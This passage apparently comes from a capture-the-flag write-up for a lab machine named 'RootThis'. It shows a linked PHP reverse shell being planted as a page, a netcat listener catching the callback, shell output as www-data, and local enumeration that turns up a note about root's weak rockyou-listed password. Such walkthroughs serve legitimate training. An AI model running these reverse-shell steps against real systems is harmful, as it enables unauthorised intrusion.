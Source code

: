 And after all of this, let's create a new page with [PHP Reverse Shell](https://github.com/pentestmonkey/php-reverse-shell).

![Reverse Shell](/img/rootthis/php-reverse-shell.png){:class="img-responsive center-block"}

Before saving, we have to use `nc` to catch the connection.

```text
root@kali:~# nc -lvp 1234
listening on [any] 1234 ...
10.0.0.7: inverse host lookup failed: Unknown host
connect to [10.0.0.5] from (UNKNOWN) [10.0.0.7] 37950
Linux RootThis 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 03:55:05 up 12 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```

And we're in the system. IN this part of enumaration, we have to find a way to escalate our privilages. During usual file reconnaissance, I've noticed a file in `/home/user/` directory.

```text
$ cd /home
$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Dec  1 03:57 .
drwxr-xr-x 22 root root 4096 Dec  1 03:55 ..
drwxr-xr-x  2 user user 4096 Dec  1 11:43 user
$ cd user
$ ls -la
total 28
drwxr-xr-x 2 user user 4096 Dec  1 11:43 .
drwxr-xr-x 3 root root 4096 Dec  1 03:57 ..
-rw------- 1 user user   12 Dec  1 11:31 .bash_history
-rw-r--r-- 1 user user  220 Dec  1 03:57 .bash_logout
-rw-r--r-- 1 user user 3526 Dec  1 03:57 .bashrc
-rw-r--r-- 1 user user  675 Dec  1 03:57 .profile
-rw-r--r-- 1 user user  217 Dec  1 11:43 MessageToRoot.txt
$ cat MessageToRoot.txt
Hi root,

Your password for this machine is weak and within the first 300 words of the rockyou.txt wordlist. Fortunately root is not accessible via ssh. Please update the password to a more secure one.

Regards,
user
```
